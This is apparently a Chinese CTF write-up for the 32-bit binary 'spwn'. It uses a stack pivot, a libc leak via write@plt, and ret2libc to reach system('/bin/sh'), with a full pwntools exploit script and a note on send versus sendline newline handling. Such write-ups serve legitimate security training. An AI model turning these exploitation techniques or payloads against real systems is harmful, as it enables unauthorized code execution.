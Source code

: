 ## 0x001 程序分析

通过checksec查看程序开启的保护，可见程序开启了NX。

![](1.png)

分析vul_function函数

![](2.png)

该函数使用read接收两次输入，第一次输入是写入bss段的全局变量 **s** 中，写入最大长度为0x200，第二次输入是写入局部变量buf中，写入最大长度为0x20。

## 0x002 漏洞分析

由于局部变量buf距离EBP的长度为0x18，而可写入的最大长度为0x20，因此造成栈溢出漏洞。

## 0x003 漏洞利用

虽然存在栈溢出漏洞，但是由于溢出的长度不够，需要使用栈迁移来完成漏洞利用。该程序中没有提供system函数以及"/bin/sh"字符串，因此需要先泄露libc地址。

在全局变量 **s** 中写入重新规划好的栈空间，然后利用栈溢出，覆盖EBP指向 **s**，并且将返回地址覆盖为执行 **leave ; ret** 指令的地址，经过两次 **leave ; ret** 即可将栈空间转移到 **s** 中，并且修改EIP为 **write_plt**，来泄露libc。
```
payload = b"A" * 4 + p32(elf.plt["write"]) + p32(elf.symbols["main"]) + p32(1) + p32(elf.got["write"]) + p32(4)
p.recvuntil("What is your name?")
p.sendline(payload)

#填充     +     s地址      +      leave;ret指令地址
payload = b'A' * 24 + p32(0x0804A300) + p32(0x08048511)
p.recvuntil("What do you want to say?")
p.send(payload)

write_real_addr = u32(p.recv(4))
libcbase = write_real_addr - libc.symbols["write"]
system_addr = libcbase + libc.symbols["system"]
bin_sh_addr = libcbase + next(libc.search(b"/bin/sh"))
```

泄露成功后，程序重新回到main函数中，再次来到vul_function函数，通过输入重新规划 **s** 所指向的栈空间，将 **system** 的地址以及参数 **"/bin/sh"** 写入栈中。
```
payload = b"A" * 4 + p32(system_addr) + p32(elf.symbols["main"]) + p32(bin_sh_addr)
p.recvuntil("What is your name?")
p.sendline(payload)

payload = b'A' * 24 + p32(0x0804A300) + p32(0x08048511)
p.recvuntil("What do you want to say?")
p.sendline(payload)
```

最后利用栈溢出，覆盖EBP指向 **s**，并且将返回地址覆盖为执行 **leave ; ret** 指令的地址，经过修改即可将EIP改为 **system** 的地址，执行 **system("/bin/sh")** 指令，获取系统权限。

最终EXP如下：
```
from pwn import *

p = process("./spwn")
elf = ELF("spwn")
libc = ELF("libc.so")

payload = b"A" * 4 + p32(elf.plt["write"]) + p32(elf.symbols["main"]) + p32(1) + p32(elf.got["write"]) + p32(4)
p.recvuntil("What is your name?")
p.sendline(payload)

payload = b'A' * 24 + p32(0x0804A300) + p32(0x08048511)
p.recvuntil("What do you want to say?")
p.send(payload)

write_real_addr = u32(p.recv(4))
libcbase = write_real_addr - libc.symbols["write"]
system_addr = libcbase + libc.symbols["system"]
bin_sh_addr = libcbase + next(libc.search(b"/bin/sh"))

payload = b"A" * 4 + p32(system_addr) + p32(elf.symbols["main"]) + p32(bin_sh_addr)
p.recvuntil("What is your name?")
p.sendline(payload)

payload = b'A' * 24 + p32(0x0804A300) + p32(0x08048511)
p.recvuntil("What do you want to say?")
p.sendline(payload)

p.interactive()
```

## 0x004 小插曲

事情是这样的，这道题总共有四个输入的地方，程序中是由read来接受输入，本来我的程序是这么写的

![](3.png)

可是运行后怎么都不对，心态炸了。。。。

通过调试发现，是第二次往 **s** 里写数据是有了问题

![](4.png)

正常来说应该是这样的

![](5.png)

对比来看是因为多往里写了一个 **0x0a** ？？？？这个 **0x0a** 是哪来的？

这就要从read、send和sendline这三个函数说起了。

read函数是可以指定长度接收输入，如果输入的长度没到指定长度，则需要使用回车确认输入，这样经过read输入后，字符串是以 **0x0a** 结尾的。如果输入的长度刚好等于指定长度，那么使用回车确认输入后就会将 **0x0a** 保存到下一个地址，也就是会比指定的长度多一个字节出来。

如果程序中有两个挨着的read，在第一次read接收输入时，输入的长度大于指定长度，那么多余的部分就会等到第二次read时读取。比如，有代码如下：
```
read(0, buf1, 10);
read(0, buf2, 10);
```

当运行到第一个read时，输入"AAAAAAAAAABBBBB"，那么此时buf1中读取到的内容就是"AAAAAAAAAA"，而buf2读取到的内容就是"BBBBB\x0a"，不需要再次输入。

那么此时回到上面的问题就好理解了，由于send是发送数据，sendline是发送数据+'\n'，sendline比send多一个回车。当第二次输入时，输入的长度刚好是程序中read指定的长度，使用sendline时，就会多出来一个'\n'，这个'\n'就会等到第三次read时获取到，也就是上图中多出来的那个 **0x0a**。